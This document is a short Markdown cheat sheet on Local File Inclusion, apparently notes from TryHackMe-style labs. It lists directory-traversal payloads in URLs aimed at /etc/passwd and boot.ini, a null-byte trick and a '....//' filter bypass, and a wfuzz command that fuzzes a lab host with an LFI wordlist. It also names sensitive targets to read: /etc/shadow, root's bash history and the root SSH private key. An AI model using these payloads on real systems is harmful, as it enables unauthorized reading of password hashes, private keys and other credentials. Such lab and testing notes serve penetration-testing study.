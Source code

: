 # LFI


## Test
Try to open  ../../../../../etc/passwd

- http://target/item?id=../../../../../etc/passwd

- http://webapp.thm/get.php?file=../../../../etc/passwd

- http://webapp.thm/get.php?file=../../../../boot.ini


Location	Description

- **/etc/issue** contains a message or system identification to be printed before the login prompt.
- **/etc/profile** controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived
- **/proc/version** specifies the version of the Linux kernel
- **/etc/passwd**	has all registered user that has access to a system
- **/etc/shadow**	contains information about the system's users' passwords
- ** /root/.bash_history** contains the history commands for root user
- **/var/log/dmessage** contains global system messages, including the messages that are logged during system startup
- **/var/mail/root** all emails for root user
- **/root/.ssh/id_rsa** Private SSH keys for a root or any known valid user on the server
- **/var/log/apache2/access.log** the accessed requests for Apache  webserver
- **C:\boot.ini** contains the boot options for computers with BIOS firmware


## Tricks & Tips

Using the NullByte ```%00```


....//....//....//....//....//etc/passwd


## WFUZZ
```
wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php?page=FUZZ --hw=0
```
